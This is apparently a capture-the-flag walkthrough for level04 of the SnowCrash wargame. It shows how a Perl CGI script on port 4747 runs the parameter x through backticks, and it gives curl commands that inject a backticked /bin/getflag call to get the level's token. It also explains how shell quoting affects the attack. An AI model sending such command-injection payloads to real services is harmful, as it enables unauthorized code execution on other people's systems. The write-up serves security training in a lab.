 # Level04

We have a script `perl` in home. It listen a CGI request on the port `4747`. A parameter `x` is get.  
We can use it to obtain what we want because a [`backticks`](https://perldoc.perl.org/perlop#Quote-Like-Operators) are used.
This `backtricks` are system command interpreter.
Because we want to send `/bin/getflag` command, we must use this syntax: 

```bash
level04@SnowCrash:~$ curl http://192.168.56.116:4747 --data 'x=`/bin/getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

Whithout `backtick` the code execute the `echo` command:

```bash
level04@SnowCrash:~$ curl --get http://192.168.56.116:4747 --data 'x="/bin/getflag"'
/bin/getflag
```

## Difference between double quote and single quote

In `double quote` the text will be interpreted:  
For example: This line is interpreted before to be send with curl. So `/bin/getflag` is executed as level04. So we haven't got the permissions.  

```bash
level04@SnowCrash:~$ curl http://192.168.56.116:4747 --data "x=`/bin/getflag`"
Check flag.Here is your token :
```

In `single quote`, the text is not interpreted before to be send. The output is sent and interpreted after.  
```bash
level04@SnowCrash:~$ curl http://192.168.56.116:4747 --data 'x=`/bin/getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
